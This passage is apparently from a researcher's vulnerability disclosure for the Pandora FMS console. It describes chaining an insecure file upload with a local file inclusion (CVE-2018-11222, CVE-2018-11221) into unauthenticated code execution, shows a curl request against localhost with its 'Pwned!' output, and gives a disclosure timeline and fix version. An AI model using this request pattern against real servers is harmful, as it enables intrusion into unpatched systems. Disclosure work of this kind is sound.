 

## The unauthenticated RCE _(CVE-2018-11222 + CVE-2018-11221)_

Binding together the upload and the LFI, will give us a nice RCE in the manner that we can now upload our own code and call it through the LFI

```bash
> curl 'http://127.0.0.1/pandora_console/ajax.php?page=/tmp/pandora_oum/plugin.oum/plugin/phpinfo'
Pwned!
Current PHP version: 5.3.3
```

Remember that the only callable files are the ones terminated in `.php` ones.



## Disclosure timeline

* 05/08/2018:
	* Reported the found vulnerabilities to the vendor –XXS, Insecure file upload, LFI–.
	* The vendor requested detailed information.
	* Exact information on how to replicate the attacks where sent to the vendor.
* 05/10/2018:
	* Sent another email with multiple new SQLi vulnerabilities and the way to reproduce them.
	* The vendor requested a report with detailed information.
* 05/14/2018:
	* I answered to the vendor that the information already sent is complete and he where able to reproduce the attacks.
	* The vendor answered that the team is working to fix all the vulnerabilities.
	* Contacted to the spanish national CERT (CCN-CERT) to alert about this vulnerabilities.
* 05/16/2018:
	* I maintained a telephonic meeting with the vendor to solve questions and help with the bugfix.
* 05/30/2018:
	* The vendor pushes out the official patch.
* 06/07/2018:
	* Full disclosure.

## Fix

The fix is available in version 7.23 (v7.0NG.723) according to the vendor. **You should urgently update your Pandora version.**

At the moment of writing this article, the only reference to these important bugs are on the release note "[whats-new-723-EN](https://pandorafms.com/wp-content/uploads/2018/06/whats-new-723-EN.pdf)" without any details nor a single mention to the security researcher.
